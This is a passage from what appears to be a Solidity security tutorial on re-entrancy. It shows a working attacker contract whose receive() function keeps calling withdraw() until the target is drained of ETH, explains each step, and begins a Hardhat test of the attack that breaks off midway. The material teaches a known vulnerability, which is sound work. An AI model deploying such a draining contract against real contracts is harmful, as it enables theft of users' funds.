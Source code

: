 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./GoodContract.sol";

contract BadContract {
    GoodContract public goodContract;
    constructor(address _goodContractAddress) {
        goodContract = GoodContract(_goodContractAddress);
    }

    // Function to receive Ether
    receive() external payable {
        if(address(goodContract).balance > 0) {
            goodContract.withdraw();
        }
    }

    // Starts the attack
    function attack() public payable {
        goodContract.addBalance{value: msg.value}();
        goodContract.withdraw();
    }
}
This contract is much more interesting, let's understand what is going on.

Within the constructor, this contract sets the address of GoodContract and initializes an instance of it.

The attack function is a payable function that takes some ETH from the attacker, deposits it into GoodContract, and then calls the withdraw function in GoodContract.

At this point, GoodContract will see that BadContract has a balance greater than 0, so it will send some ETH back to BadContract. However, doing this will trigger the receive() function in BadContract.

The receive() function will check if GoodContract still has a balance greater than 0 ETH, and call the withdraw function in GoodContract again.

This will create a loop where GoodContract will keep sending money to BadContract until it completely runs out of funds, and then finally reach a point where it updates BadContract's balance to 0 and completes the transaction execution. At this point, the attacker has successfully stolen all the ETH from GoodContract due to re-entrancy.

We will utilize Hardhat Tests to demonstrate that this attack actually works, to ensure that BadContract is actually draining all the funds from GoodContract. You can read the Hardhat Docs for Testing to get familiar with the testing environment.

Let's start off by creating a file named attack.js under the test folder, and add the following code there:

const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { parseEther } = require("ethers/lib/utils");
const { ethers } = require("hardhat");

describe("Attack", function () {
  it("Should empty the balance of the good contract", async function () {
    // Deploy the good contract
    const goodContractFactory = await ethers.getContractFactory("GoodContract");
    const goodContract = await goodContractFactory.deploy();
    await goodContract.deployed();
